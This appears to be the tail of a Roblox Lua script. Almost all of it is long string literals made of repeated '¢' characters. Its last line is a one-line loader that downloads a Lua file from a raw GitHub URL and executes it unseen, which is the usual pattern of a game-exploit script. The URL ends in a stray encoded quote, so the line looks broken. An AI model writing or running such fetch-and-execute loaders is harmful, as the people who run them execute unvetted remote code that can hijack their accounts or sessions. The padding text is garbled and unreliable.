¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢'})
loadstring(game:HttpGet('https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua%22))()    

